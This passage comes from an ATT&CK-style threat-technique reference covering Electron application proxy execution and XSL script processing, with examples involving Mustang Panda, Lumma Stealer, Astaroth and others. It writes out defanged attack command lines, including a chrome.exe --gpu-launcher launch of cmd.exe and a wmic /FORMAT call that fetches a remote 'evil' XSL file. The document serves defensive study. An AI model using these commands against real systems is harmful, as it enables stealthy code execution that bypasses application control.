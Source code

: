 Procedures:

- [C0047] RedDelta Modified PlugX Infection Chain Operations: Mustang Panda used Microsoft Management Console Snap-In Control files, or MSC files, executed via MMC to run follow-on PowerShell commands during RedDelta Modified PlugX Infection Chain Operations.

### T1218.015 - System Binary Proxy Execution: Electron Applications

Description:

Adversaries may abuse components of the Electron framework to execute malicious code. The Electron framework hosts many common applications such as Signal, Slack, and Microsoft Teams. Originally developed by GitHub, Electron is a cross-platform desktop application development framework that employs web technologies like JavaScript, HTML, and CSS. The Chromium engine is used to display web content and Node.js runs the backend code. Due to the functional mechanics of Electron (such as allowing apps to run arbitrary commands), adversaries may also be able to perform malicious functions in the background potentially disguised as legitimate tools within the framework. For example, the abuse of `teams.exe` and `chrome.exe` may allow adversaries to execute malicious commands as child processes of the legitimate application (e.g., `chrome.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c calc.exe`). Adversaries may also execute malicious content by planting malicious JavaScript within Electron applications.

Procedures:

- [S1213] Lumma Stealer: Lumma Stealer as leveraged Electron Applications to disable GPU sandboxing to avoid detection by security software.


### T1220 - XSL Script Processing

Description:

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to Trusted Developer Utilities Proxy Execution, the Microsoft common line transformation utility binary (msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension. Command-line examples: * msxsl.exe customers[.]xml script[.]xsl * msxsl.exe script[.]xsl script[.]xsl * msxsl.exe script[.]jpeg script[.]jpeg Another variation of this technique, dubbed “Squiblytwo”, involves using Windows Management Instrumentation to invoke JScript or VBScript within an XSL file. This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize the /FORMAT switch. Command-line examples: * Local File: wmic process list /FORMAT:evil[.]xsl * Remote File: wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”

Procedures:

- [S0373] Astaroth: Astaroth executes embedded JScript or VBScript in an XSL stylesheet located on a remote domain.
- [G0080] Cobalt Group: Cobalt Group used msxsl.exe to bypass AppLocker and to invoke Jscript code from an XSL file.
- [G0126] Higaisa: Higaisa used an XSL file to run VBScript code.
